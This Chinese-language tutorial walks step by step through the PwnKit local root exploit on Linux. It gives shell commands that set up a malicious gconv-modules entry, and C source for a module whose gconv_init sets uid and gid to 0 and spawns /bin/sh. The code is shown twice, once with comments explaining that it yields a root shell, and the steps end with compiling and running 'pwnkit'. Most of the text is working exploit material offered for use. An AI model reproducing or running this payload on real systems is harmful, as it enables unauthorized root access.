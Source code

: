 创建一个名为phone的目录
```
mkdir phone
```
然后再在phone目录下创建pwn目录
```
mkdir pwn
```
创建一个名为gconv-modules的模块
![在这里插入图片描述](https://img-blog.csdnimg.cn/2e1f3e21092d4233a9c440da49dd6076.png)
写入
```
echo 'module  UTF-8//    BRUH//    conversion-mod   1' > gconv-modules
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d101df08180f4cbcb4a2f07be904cca9.png)
然后再创建一个名为conversion-mod.c的文件
```
touch conversion-mod.c
```
然后写入
```
#define _GNU_SOURCE
#include <unistd.h>
#include <gconv.h>

int gconv_init() {

    setuid(0);
    setgid(0);

    char *args[] = {"sh", NULL};
    char *envp[] = {"PATH=/bin:/usr/bin:/sbin", NULL};

    execvpe("/bin/sh", args, envp);

    return(__GCONV_OK);
}

int  gconv(){ return(__GCONV_OK); }
```
解释
```
#define _GNU_SOURCE
#include <unistd.h>
#include <gconv.h>

int gconv_init() {

    setuid(0);        
    setgid(0);            /都设置为零的意思是root

    char *args[] = {"sh", NULL};
    char *envp[] = {"PATH=/bin:/usr/bin:/sbin", NULL};

    execvpe("/bin/sh", args, envp);     /创建一个简单的shell

    return(__GCONV_OK);
}

int  gconv(){ return(__GCONV_OK); }
```
最后用gcc编译所有的c文件
然后运行pwnkit文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/d512b5f2a1f74a4b9afba6d76220710e.png)